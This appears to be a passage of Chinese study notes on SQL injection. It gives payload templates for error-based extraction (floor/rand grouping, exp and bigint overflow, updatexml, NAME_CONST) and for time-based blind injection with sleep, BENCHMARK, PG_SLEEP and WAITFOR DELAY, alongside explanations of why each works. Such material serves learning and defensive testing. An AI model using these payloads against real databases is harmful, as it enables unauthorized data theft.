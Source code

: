 ```sql
select count(*) from information_schema.tables group by concat(【payload】,floor(rand(0)*2))
```

如果关键的表被禁用了，可以使用这种形式

```sql
select count(*) from (select 1 union select null union select !1) group by concat(【payload】,floor(rand(0)*2))
```

(需要理解group by报错的原理)如果rand被禁用了，可以使用用户变量。用户变量需要用@变量名来表示，并且使用:=来进行赋值。这里使用min这个聚集函数是因为它可以给用户变量@a赋一个初值。

```sql
select min(@a:=1) from information_schema.tables group by concat(【payload】,(@a:=(@a+1)%2)
```
---
#### 2. exp、bigint溢出

exp 报错原理：exp函数输入一个过大的数值就会发生溢出错误。  
一个查询成功返回，其返回值为0。在sql中对0进行按位取反（即～0）会得到最大的bigint值，这个值输入到exp函数中一定会报错的。

```sql
mysql> select exp(710);
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
```

因此可以构造`select exp(~(select * FROM(【payload】)a))`一类语句，利用错误回显出需要的数据。  
[详细原理链接](https://www.cnblogs.com/lcamry/articles/5509124.html)

bigint同理。只不过一般不用加法来造成溢出，使用另一种方式，转换为减法。  
`select username, password from users where id='1' or !(select*from(【payload】)x)-~0;`  
[详细原理和利用方法](https://www.cnblogs.com/lcamry/articles/5509112.html)

#### 3. updatexml 和 重复特性

利用了xpath语法错误  
`updatexml(1,concat(0x7e,(select @@version),0x7e),1)`  
利用了重复特性，重复了version  
`select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;`

### 时间盲注

和布尔盲注一个道理，只不过这里判断是否成功的依据变成了返回的时间。

```sql
--可以使用sleep函数
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23  
--另一种函数用法
UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),
BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds’)),null)
 FROM (select database() as current) as tb1;
```

BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()。

>Mysql：BENCHMARK(100000,MD5(1)) or sleep(5)  
Postgresql：PG_SLEEP(5) OR GENERATE_SERIES(1,10000)  
Ms sql server：WAITFOR DELAY ‘0:0:5’  

来自白帽子讲web安全
